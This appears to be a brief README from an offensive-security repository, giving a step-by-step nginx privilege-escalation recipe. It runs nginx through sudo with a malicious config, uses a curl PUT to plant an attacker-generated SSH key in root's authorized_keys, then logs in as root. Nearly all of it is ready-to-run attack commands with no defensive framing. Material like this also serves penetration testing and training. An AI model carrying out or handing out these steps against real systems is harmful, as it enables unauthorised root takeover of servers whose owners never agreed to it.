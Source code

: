 # Nginx Privilege Escalation

## Sudo:

 - sudo -l (Check if the user runs nginx via sudo)

### Then create a malicious config file to configure with nginx (Check rootshells folder in this repo)

 - sudo nginx -c /tmp/malicious.conf

### In this example, we try to connect to root via ssh by creating our own keys

 - ss -tulpn (Check if the configuration file ran successfully. Check for port 1337 in this example)

 - ssh-keygen (Save the key to ./root to work successfully)

 - curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat root.pub)" (Put the newly created public key to the "authorized_keys" file of the root user to recognize our keys)

 - ssh -i root root@localhost (SSH to root with the newly created key)
